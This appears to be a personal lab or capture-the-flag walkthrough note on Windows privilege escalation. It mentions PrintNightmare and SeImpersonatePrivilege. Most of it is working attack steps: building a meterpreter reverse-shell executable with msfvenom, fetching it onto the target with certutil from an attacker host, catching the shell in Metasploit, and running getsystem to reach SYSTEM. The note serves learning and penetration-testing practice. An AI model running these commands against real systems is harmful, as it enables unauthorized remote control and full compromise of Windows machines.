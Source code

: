 
## Quick summary — what this is

- “PrintNightmare” refers to a class of Print Spooler vulnerabilities (notably CVE-2021-1675 and CVE-2021-34527) that allow **privilege escalation** or **remote code execution** via the Windows Print Spooler service.
    
- One attack vector uses **named pipe impersonation**: a privileged service (spoolsv.exe) can be tricked into impersonating an attacker-controlled client, leading to code execution as SYSTEM.
    
- Impact: full domain compromise on Windows domain controllers or local SYSTEM takeover on workstations/servers where spooler is running and vulnerable.

## Privileges of the current user

On the [[Initial access#Reverse Shell]] get the user's privileges.

```
whoami /priv
```

![[1_O8u40tZ_W_inoAsND5hOLQ.webp]]

The Privilege `SeImpersonatePrivilege` is enabled.

## Creating a payload with msfvenom

#Attacking_Machine 
Run the following command.

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<ATTACKING MACHIINE IP> LPORT=4445 -f exe -o malicious.exe
```

#SMB_shell 
## Downloading the payload

```
certutil -urlcache -f http://<ATTACKING MACHINE IP>/malicious.exe malicious.exe
```

![[Screenshot_2025-10-07_05-02-59.png]]

## Running the payload

```
.\malicious.exe
```


## Metasploit

Create a meterpreter on Metasploit.

#Attacking_Machine 
- Run `msfconsole`.

#Metasploit
- Use a **reverse shell handler** (like `multi/handler`).
```
msf6 use multi/handler
```

- Use a _persistent_ or _meterpreter_ payload.
```
msf6 exploit(multi/handler) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
```

- Set the options.
```
msf6 exploit(multi/handler) > set LHOST <ATTACKING MACHINE IP>

msf6 exploit(multi/handler) > set LPORT 4445
```

> [!Note]
LPORT is the same as the one you use to create the `malicious.exe` payload with *msfvenom*.


## Running the exploit

#Metasploit 

```
msf6 exploit(multi/handler) > exploit
```

![[Screenshot_2025-10-07_05-25-00.png]]

- Try *getsystem* to make the framework apply some common techniques.

```
meterpreter > getsystem
meterpreter > getuid
```

![[Screenshot_2025-10-07_05-30-15.png]]

> [!Success]
> You get NT AUTHORITY\SYSTEM


**Next step:** [[System flag]]
